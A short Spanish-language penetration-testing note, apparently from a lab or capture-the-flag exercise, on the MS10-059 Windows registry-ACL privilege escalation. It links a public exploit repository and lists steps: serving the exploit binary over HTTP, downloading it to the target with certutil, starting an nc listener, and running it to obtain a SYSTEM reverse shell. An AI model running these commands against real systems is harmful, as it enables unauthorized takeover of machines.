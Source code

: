 https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059

La función de rastreo para servicios en Microsoft Windows Vista SP1 y SP2, Windows Server 2008 Gold, SP2 y R2, y Windows 7 tiene ACL incorrectas en sus claves de registro, lo que permite a los usuarios locales obtener privilegios a través de vectores que involucran una canalización con nombre y suplantación, también conocido como "Vulnerabilidad de ACL de clave de registro de rastreo".

** Ataque a equipo objetivo usando este exploit **
1. Descargamos el exploit "MS10-059.exe"
2. Transferimos el binaro a la máquina objetivo:
	1. Servidor web en local ofreciendo el fichero --> `python3 -m http.server 80`
	2. Transferencia desde la máquina objetivo --> `certutil.exe -f -urlcache http://10.10.14.20/MS10-059.exe MS10-059.exe`
3. Montar en local puerto en escucha de reverse shell --> `rlwrap nc -nlvp 443`
4. Ejecutar el binaro --> `MS10-059.exe 10.10.14.20 443`
5. Obtenemos una reverse shell con privilegios de "nt authority\system"
